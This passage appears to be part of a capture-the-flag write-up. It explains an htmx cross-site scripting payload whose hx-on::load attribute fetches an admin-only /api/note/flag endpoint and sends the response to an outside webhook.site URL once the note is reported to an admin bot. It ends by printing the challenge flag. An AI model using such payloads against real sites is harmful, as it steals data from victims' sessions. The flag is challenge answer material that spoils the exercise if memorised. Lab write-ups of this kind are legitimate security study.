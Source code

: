  `hx-get="/api/note/flag"` → to fetch the content from **/api/note/flag**

`hx-on::load="fetch('/api/note/flag').then(x => x.text()).then((x)=>location='https://webhook.site/7a888fca-6ff6-48d0-b2af-33f47ab05ab5?x='+encodeURIComponent(x)) "`
→ the content from /api/note/flag is fetched and sent to my webhook with the response as a query parameter.

Report the note link to /report endpoint. When the admin visits the note, content from /api/note/flag is fetched and sent to my webhook as a query parameter.

```html
Good job user, <br> here's your flag. <br> <br> flag{C3r34l_1s_s0up_l1k3_1f_4gr33}
```

**Flag:** `flag{C3r34l_1s_s0up_l1k3_1f_4gr33}`